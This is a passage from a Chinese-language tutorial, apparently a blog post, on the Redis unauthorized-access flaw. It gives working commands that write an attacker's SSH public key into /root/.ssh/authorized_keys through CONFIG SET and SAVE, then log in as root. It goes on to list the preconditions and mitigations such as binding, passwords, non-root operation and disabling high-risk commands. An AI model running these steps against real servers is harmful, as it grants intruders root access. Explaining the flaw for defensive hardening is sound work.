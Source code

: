 
4、客户端使用 ssh-keygen 生成公钥，不停按 enter，不出意外马上在`~/.ssh`生成了目录生成了公私钥文件

    ssh-keygen
    
    ll ~/.ssh
    ya@c2 ~$ ll .ssh
    -rw-------. 1 ya ya 1.7K 4月  14 03:00 id_rsa
    -rw-r--r--. 1 ya ya  387 4月  14 03:00 id_rsa.pub
    

5、将客户端公钥写入到文件 foo.txt 中以便后面写入到 redis，其实是生成一个头尾都包含两个空行的公钥文件

    (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
    

6、先清空 Redis 存储所有的内容，将 foo.txt 文件内容写入到某个 key 中，这里为 crackit，随后调用 redis-cli 登录 redis 调用 config 命令设置文件 redis 的 dir 目录和把 rdb 文件的名字dbfilename 设置为 authorized\_keys。

    redis-cli -h 10.211.55.12 echo flushall
    cat foo.txt | redis-cli -h 10.211.55.12 -x set crackit
    
    // 登录 Redis
    redis-cli -h 10.211.55.12
    
    config set dir /root/.ssh
    
    config set dbfilename "authorized_keys"
    

7、执行 save 将 crackit 内容 落盘

    save
    

8、尝试登录

    ssh root@10.211.55.12
    

我们来看一下，服务器 10.211.55.12 机器上 /root/.ssh/authorized\_keys 的内容，可以看到 authorized\_keys 文件正是我们客户端机器的公钥文件

![](https://p1-jj.byteimg.com/tos-cn-i-t2oaga2asx/gold-user-assets/2019/6/26/16b9134c2111e4f8~tplv-t2oaga2asx-jj-mark:1600:0:0:0:q75.image#?w=1382&h=364&s=111405&e=jpg&b=010101)

利用这个漏洞有几个前提条件

*   Redis 绑定 0.0.0.0 允许所有来源的 TCP 连接，且没有设置密码 这完全是作死，因为就算不能入侵你的系统，也可以修改 Redis 中缓存的内容。不过 Redis 的设计者们一开始就认为不会有人这么做，因为把 Redis 放在一个信任的内网环境运行才是正道啊。
    
*   Redis 没有设置密码或密码过于简单 大部分开发都没有意识到 Redis 没有密码是一个大问题，要么是一个很简单的密码要么没有密码，Redis 的处理能力非常强，auth这种命令可以一秒钟处理几万次以上，简单的密码很容易被暴力破解
    
*   redis-server 进程使用 root 用户启动 不用 root 用户启动也可以完成刷新 authorized\_keys 的功能，但是不能登陆，因为非 root 用户 authorized\_keys 的权限要求是 600 才可以登录，但是可以覆盖破坏系统的文件。
    
*   没有禁用 save、config、flushall 这些高危操作 在正式服务器上这些高危操作都应该禁用或者进行重命名。这样就算登录你你的 Redis，也没有办法修改 Redis 的配置和修改服务器上的文件。
    

解决办法
----

*   首要原则：不暴露服务到公网 让 redis 运行在相对可信任的内网环境
*   设置高强度密码 使用高强度密码增加暴力破解的难度
*   禁止 root 用户启动 redis 业务服务永远不要使用 root 权限启动
*   禁用或者重命名高危命令 禁用或者重命名 save、config、flushall 等这些高危命令，就算成功登陆了 Redis，也就只能折腾你的 redis，不能取得系统的权限进行更危险的操作
*   升级高版本的 Redis 出现如此严重的问题，Redis 从 3.2 版本加入了 protected mode， 在没有指定 bind 地址或者没有开启密码设置的情况下，只能通过回环地址本地访问，如果尝试远程访问 redis，会提示以下错误：
